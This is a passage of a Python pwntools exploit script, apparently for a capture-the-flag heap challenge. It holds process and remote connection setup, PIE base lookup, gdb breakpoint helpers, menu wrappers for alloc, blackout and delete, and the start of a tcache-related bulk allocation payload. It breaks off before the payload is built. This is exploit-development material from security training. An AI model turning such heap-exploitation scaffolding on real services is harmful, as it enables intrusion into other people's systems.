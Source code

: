 ```python
		return process(TARGET)
		# return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
		# return process(TARGET, stdout=process.PTY, stdin=process.PTY)
	else:
		print("remote")
		return remote(HOST, PORT)

def get_base_address(proc):
	lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
	for line in lines :
		if TARGET[2:] in line.split('/')[-1] :
			break
	return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
	script = "handle SIGALRM ignore\n"
	PIE = get_base_address(proc)
	script += "set $base = 0x{:x}\n".format(PIE)
	for bp in breakpoints:
		script += "b *0x%x\n"%(PIE+bp)
	script += "c"
	gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

r = start()

def alloc(idx, s,  size=-1):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b': ', str(idx).encode())
    if size == -1:
        r.sendlineafter(b': ', str(len(s)).encode())
    else:
        r.sendlineafter(b': ', str(size).encode())
    r.sendafter(b': ', s)
def blackout(idx, w):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b': ', str(idx).encode())
    r.sendlineafter(b': ', w)

def delete(idx):
    r.sendlineafter(b'> ', b'3')
    r.sendlineafter(b': ', str(idx).encode())

total = 0
def bulk_alloc_payload(idx, s,  size=-1):
    global total
    if size == -1:
        ret = f'1\n{idx}\n{len(s)+1}\n'.encode()+s+b'\n'
        total += len(s)+1
    else:
        ret = f'1\n{idx}\n{size}\n'.encode()+s+b'\n'
        total += size
    return ret


#context.log_level = 'debug'
n = 0x10000-0x11
tcache_size = 0x3b0

p = b''
#for i in range(n):
log.info('building payload... ')
```